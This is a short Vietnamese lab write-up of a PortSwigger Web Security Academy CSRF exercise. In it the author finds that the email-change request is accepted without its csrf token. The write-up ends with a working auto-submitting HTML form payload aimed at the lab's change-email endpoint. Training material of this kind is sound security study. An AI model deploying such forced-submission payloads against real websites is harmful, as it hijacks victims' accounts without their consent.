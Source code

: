 ![img](https://imgur.com/AInWKhL.png)

# Lab: CSRF where token validation depends on token being present

![img](https://imgur.com/Na9yxnQ.png)

### Web page: 

![img](https://imgur.com/XsmlG6q.png)

Log in với account được cấp sẵn wiener:peter: 

![img](https://imgur.com/sH72QBo.png)

Mở Burp Suite và Intercept request Update email: 

![img](https://imgur.com/nOwVVKy.png)

Send Request này tới Repeater: 

![img](https://imgur.com/QMMHeUJ.png)

Thử xóa csrf param và Send Request: 

![img](https://imgur.com/UBV6ujp.png)

--> Có vẻ vẫn thay đổi được Email khi không có csrf param.

Click Go to exploit server:

![img](https://imgur.com/n7Kdj5p.png)

Thử sử dụng HTML payload: 

    <html>
    <!-- CSRF PoC - generated by Burp Suite Professional -->
    <body>
        <script>history.pushState('', '', '/')</script>
        <form method="POST" action="https://0a5e004803d3c99c8232061b0092004a.web-security-academy.net/my-account/change-email">
            <input type="hidden" name="email" value="Test@Test.com">
            <input type="submit" value="Submit request" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
    </html>

**Thay đổi URL thành URL của request change email*
